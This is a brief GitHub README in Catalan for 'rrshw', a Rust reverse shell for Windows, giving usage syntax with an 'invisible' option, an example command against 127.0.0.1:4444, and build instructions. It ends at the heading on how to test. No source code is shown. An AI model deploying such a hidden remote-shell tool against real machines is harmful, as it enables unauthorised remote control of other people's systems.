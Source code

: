 ## rrshw - Rust Reverse Shell for Windows 
Que és una Reverse Shell? (https://en.wikipedia.org/wiki/Shell_shoveling)[https://en.wikipedia.org/wiki/Shell_shoveling].

Utilització: **rrshw.exe [ip] [port] [invisible(y/n=default)]**

Exemple: **rrshw.exe 127.0.0.1 4444 y**

**Complilar a partir del codi font**

git clone https://github.com/jc4st3lls/rrshw.git

cd rrshw

cargo build --release 

(a la carpeta bin hi ha una versió compilada)

**Com provar**
